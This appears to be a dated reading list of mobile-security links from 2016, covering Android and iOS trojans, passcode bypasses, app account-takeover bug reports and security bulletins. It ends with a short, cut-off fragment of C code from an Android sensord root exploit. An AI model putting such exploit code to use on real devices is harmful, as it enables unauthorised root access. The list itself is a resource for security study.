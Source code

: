 	- 3.3 [银行木马－Triada: organized crime on Android](https://blog.kaspersky.com/triada-trojan/11481/)

	- 3.3 [利用Cydia Substrate进行Android Native HOOK](http://blog.csdn.net/hu3167343/article/details/50792153)

	- 3.4 [猎豹－全球首个Golem（傀儡）病毒感染数万手机](http://www.freebuf.com/vuls/97710.html)

	- 3.4 [FBI都搞不定的苹果手机锁，小偷是如何解开的？](http://www.ijiandao.com/safe/20775.html)
	
	- 3.5 [中国移动某客户端无需密码可看任意人的资料和余额和套餐和姓名](http://www.wooyun.org/bugs/wooyun-2016-0171116)
	
	- 3.6 [New OS X Ransomware KeRanger Infected Transmission BitTorrent Client Installer](http://researchcenter.paloaltonetworks.com/2016/03/new-os-x-ransomware-keranger-infected-transmission-bittorrent-client-installer/)

	- 3.7 [APP安全之伐木累任意用户登录](http://www.wooyun.org/bugs/wooyun-2016-0171902)

	- 3.7 [Nexus Security Bulletin - March 2016](https://source.android.com/security/bulletin/2016-03-01.html)
	- 3.7 [Fortinet 的爬虫&分析系统发现了一个新的 Android 恶意软件家族: BadMirror](http://blog.fortinet.com/post/badmirror-new-android-malware-family-spotted-by-sherlockdroid)
	- 3.7 [用机器学习检测Android恶意代码](http://drops.wooyun.org/mobile/13428)
	- 3.7 [通过siri饶过ios v9., v9.1 & v9.2.1,也有人评论说不是通过SIRI饶过的，是在按IPHONE键的时候，指纹解锁的](https://blog.slowb.ro/new-apple-ios-v9-0-v9-1-v9-2-1-passkey-bypass/)
	- 3.7 [Apple iOS v9.2.1 多个密码绕过漏洞](http://seclists.org/fulldisclosure/2016/Mar/15?utm_source=feedburner&utm_medium=twitter&utm_campaign=Feed%3A+seclists%2FFullDisclosure+%28Full+Disclosure%29)

	- 3.8 [警惕黑产利用企业邮箱团伙作案](http://www.sec-un.org/alert-to-black-mail-gang-crime.html)
	- 3.8 [360-“舞毒蛾”木马演变报告](http://bobao.360.cn/learning/detail/2788.html)
	- 3.9 [Android banking trojan masquerades as Flash Player and bypasses 2FA（安卓银行木马伪装成Flash Player）](http://www.welivesecurity.com/2016/03/09/android-trojan-targets-online-banking-users/)
	- 3.9 [IORegistryIterator竞争条件漏洞分析与利用](http://drops.wooyun.org/papers/13505)
	- 3.10 [Exploring the Physical Address Space on iOS](http://embeddedideation.com/2016/03/10/exploring-the-physical-address-space-on-ios/)
	- 3.10 [SlemBunk木马浅析](http://blog.nsfocus.net/slembunk-analysis-trojan-horse/)   
	- 3.10 [海航旗下某APP任意用户密码重置](http://www.wooyun.org/bugs/wooyun-2016-0172801)
	- 3.10 [我是如何发一个“红包”就控制别人的QQ的(以QQ邮箱作为演示/无需xss)](http://www.wooyun.org/bugs/wooyun-2016-0172586)
	- [Vulnerability in Android library while parsing DRM content](https://github.com/programa-stic/security-advisories/tree/master/Android/Stagefright/CVE-2015-3873)
	
	- 3.11 [北京多小区惊现非法手机信息采集装置：可监测手机位置、收集隐私数据、盗取手机信息](http://mini.eastday.com/mobile/160311170528552.html?url_type=39&object_type=webpage&pos=1)
	
	- 3.12 [通过逆向分析恶意软件的二进制代码，FireEye表示恶意软件家族拥有共同的起源 A Growing Number of Android Malware Families Believed to Have a Common Origin: A Study Based on Binary Code  ](https://www.fireeye.com/blog/threat-research/2016/03/android-malware-family-origins.html)
	
		http://drops.wooyun.org/mobile/13839
	
	- 3.13 [Android sensord day root exploit (tested on LG L7 (PL)](https://cxsecurity.com/issue/WLB-2016010191)

		```
		void disable_autorotate()
		{
		    printf("[+] Disabling auto-rotate...\n");
		    system("content insert --uri content://settings/system --bind name:s:accelerometer_rotation --bind value:i:0");
		}
		void first_step()
		{
		    if( access(FIFO_DAT, F_OK) != -1 )
		    {
		        unlink(FIFO_DAT);
		    }
		 
